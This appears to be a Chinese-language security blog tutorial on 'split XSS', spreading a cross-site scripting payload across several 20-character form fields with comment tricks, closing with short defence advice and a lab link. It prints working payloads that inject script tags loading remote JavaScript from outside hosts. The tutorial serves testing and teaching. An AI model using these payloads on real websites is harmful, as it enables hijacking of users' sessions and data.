 ```yaml
---
date: 2025-08-02T16:35:35+08:00
title: 分割XSS攻击载荷：突破20字符限制的技巧
tags: [XSS,网络安全,漏洞挖掘]
authors: qife
description: 本文详细介绍了如何通过分割XSS攻击载荷来突破20字符输入限制的技术，包括利用注释绕过HTML干扰、分块注入JavaScript代码等技术细节，并提供了实际攻击案例和防御建议。
---
```


# Split XSS - 分割XSS攻击载荷

## 突破20字符限制的XSS攻击技术

在测试一个编辑表单时，我发现8个输入字段都存在XSS漏洞，但每个字段限制为20个字符。常规XSS攻击无法在如此短的字符限制下完成，于是我开发了以下技术：

### 基本攻击思路
1. 在第一个输入中开启`<script>`标签但不闭合：
   ```html
   "><script>alert(1)/*
   ```
2. 在后续输入中闭合标签：
   ```html
   */</script>
   ```

### 字符分配策略
- 第一个字段：用12个字符闭合输入标签并开始脚本标签，剩余8个字符用于有效载荷
- 中间字段：每字段16个有效载荷字符（扣除4个字符用于注释标记）
- 最后字段：9个有效载荷字符（扣除11个字符用于闭合注释和脚本标签）

### 实际攻击载荷示例
```javascript
"><script>/*
*/x=document/*
*/.createElement(/*
*/"script");x./*
*/src="//dn.lc/s";/*
*/document.head./*
*/appendChild(x);/*
*/</script>
```

## 组合XSS技术

当网站将两个输入字段组合显示时，可以：
1. 在名字字段注入不完整的脚本标签：
   ```html
   abc<script src="//digi.ninja/script.js" 
   ```
2. 在姓氏字段注入闭合标签：
   ```html
   />
   ```
组合后形成完整标签：
```html
abc<script src="//digi.ninja/script.js" />
```

## 防御措施
1. 正确的输出编码是根本解决方案
2. 输入验证可以作为辅助防御层
3. 永远不要信任用户提供的内容

[完整测试实验室可在Split XSS Lab获取](https://digi.ninja/labs/split_xss.php)